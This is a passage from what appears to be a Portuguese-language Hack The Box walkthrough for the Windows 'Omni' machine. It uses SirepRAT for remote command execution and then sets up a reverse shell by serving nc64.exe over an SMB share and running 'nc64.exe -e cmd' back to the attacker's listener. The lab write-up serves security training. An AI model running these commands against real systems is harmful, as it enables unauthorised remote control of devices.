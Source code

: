 ```powershell
# Capturando todas as comunicações ICMP (Pings) entrando e saindo pelo tun0 (VPN do HackTheBox)
sudo tcpdump -i tun0 icmp

# Execução remota na máquina alvo, para que nos "pingue" a nossa máquina Kali
python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c ping 10.10.14.16"
```

![RCE Ping](Assets/HTB-Windows-Easy-omni/ping_RCE.png) ![RCE Ping - TCPDump listener](Assets/HTB-Windows-Easy-omni/tcpdump_ping_RCE.png)

Agora que temos a certeza de executar comandos remotamente, podemos tratar de estabelecer um reverse shell. Tentei de várias formas:

-   Tentei fazer o donwload de um nc64.exe através da ferramenta certutil.exe normalmente presente em Windows, mas sem sucesso (certutil.exe não existe)
-   Tentei com IEX e com IWR do Powershell, mas também sem sucesso (também não existem)
-   Criei um servidor samba no meu Kali, com smbserver, onde disponibilizava um nc64.exe.

```powershell
# SMB Server
sudo smbserver.py smbFolder $(pwd) -user javali -password javali -smb2support

# NC listener
sudo rlwrap nc -lvnp 443

# Get Reverse shell
python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args ' /c net use \\10.10.14.16\smbFolder /u:javali javali'

python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args ' /c \\10.10.14.16\smbFolder\nc64.exe -e cmd 10.10.14.16 443'
```

